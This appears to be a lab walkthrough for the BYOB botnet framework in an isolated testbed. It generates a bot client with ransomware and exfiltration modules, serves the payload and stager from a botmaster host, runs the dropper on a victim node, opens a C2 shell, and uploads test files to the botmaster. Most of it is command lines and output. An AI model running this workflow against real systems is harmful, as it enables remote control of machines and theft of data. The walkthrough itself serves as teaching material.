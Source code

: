 ## Exfiltration Attack
The data is exfiltrated from bot nodes (`b1` in our case) to botmaster (`botmaster` in our case).

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 exfiltrate
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'exfiltrate' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob.git/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Test Files Creation
For demo purposes I have created `test.txt`, `test_dir/` on `b1` node.

```shell
rishitsaiya@b1:~$ ls
jIJ test_dir test.txt
rishitsaiya@b1:~$ cd test_dir/
rishitsaiya@b1:~/test_dir$ ls
test.txt
rishitsaiya@b1:~/test_dir$ cat test.txt 
This is a test file.
```

#### Exfiltrate from b1 to botmaster
On botmaster node where the server is running, type the command:

```shell
[ 0 @ /home/rishitsaiya ]>upload test.txt

Upload complete

[ 0 @ /home/rishitsaiya ]>upload test_dir

Upload complete
```

It should look like this.

#### Access Exfiltrated data at botmaster
At the botmaster node, check the directory called `output`. There should be files with encoded names in `output` directory.

```shell
rishitsaiya@botmaster:/opt/byob/byob$ cd output/
rishitsaiya@botmaster:/opt/byob/byob/output$ ls
8ky..txt  rha..zip
rishitsaiya@botmaster:/opt/byob/byob/output$ cat 8ky..txt 
This is a test file.
rishitsaiya@botmaster:/opt/byob/byob/output$ unzip rha..zip 
Archive:  rha..zip
 extracting: test_dir/test.txt       
rishitsaiya@botmaster:/opt/byob/byob/output$ ls
8ky..txt  rha..zip  test_dir
rishitsaiya@botmaster:/opt/byob/byob/output$ cd test_dir/
rishitsaiya@botmaster:/opt/byob/byob/output/test_dir$ cat test.txt 
This is a test file.
```

The file `test.txt` becomes `8ky..txt` when exfiltrated. There can be other names too, but the content of the file and file formats remains uncorrupted. The directory `test_dir` when exfiltrated from the `b1` to `botmaster` is programmed to get zipped and exfiltrated and hence it becomes `rha..zip`.

